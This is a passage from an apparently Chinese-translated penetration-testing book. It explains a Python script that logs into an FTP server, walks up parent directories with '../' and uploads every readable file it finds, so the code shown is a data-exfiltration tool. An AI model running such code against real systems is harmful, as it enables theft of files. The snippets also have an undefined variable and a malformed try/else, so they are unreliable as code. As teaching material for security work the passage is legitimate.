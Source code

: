 然后，我们使用 IP 地址和通过标志设置的凭据连接到 FTP。您也可以将 IP 作为`sys.argv`传递，以避免硬编码：

```
ftp = FTP("127.0.0.1", user, pw)
```

我为目录检查方法设置了一个与第一个目录不匹配的 nonce 值。我们还将循环设置为`0`，并将“up directory”命令配置为变量，类似于[第 3 章](20.html "Chapter 3. Vulnerability Identification")、*漏洞识别*中的目录遍历脚本：

```
filescheck = "aa"

loop = 0
up = "../"
```

然后我们创建我们的主循环以永远重复，并创建我们选择的目录调用。我们在调用的目录中列出文件，并为其分配一个变量。如果愿意，您可以选择在此处打印文件列表，就像我出于诊断目的所做的那样，但这没有什么区别：

```
while 1:
  files = os.listdir("./"+(i*up))
  print files
```

对于在目录中检测到的每个文件，我们将尝试打开它。我们使用`rb`打开文件很重要，因为这样可以将其作为二进制文件读取，从而可以作为二进制文件传输。如果它是可打开的，我们使用`storbinary`命令将其传输到 FTP。然后，我们关闭文件以完成交易：

```
  try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
```

如果出于任何原因，我们无法打开或传输文件，我们只需转到列表中的下一个：

```
  else:
      pass
```

然后检查自上一个命令以来是否更改了目录。如果没有，我们将中断主循环：

```
if filescheck == files:
    break
```

如果目录列表不匹配，我们将`filecheck`变量设置为与当前目录匹配，通过`1`迭代循环，并休眠`10`秒，以避免滥发服务器：

```
else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
```

最后，完成所有其他操作后，我们将关闭与 FTP 服务器的连接：

```
ftp.close()
```

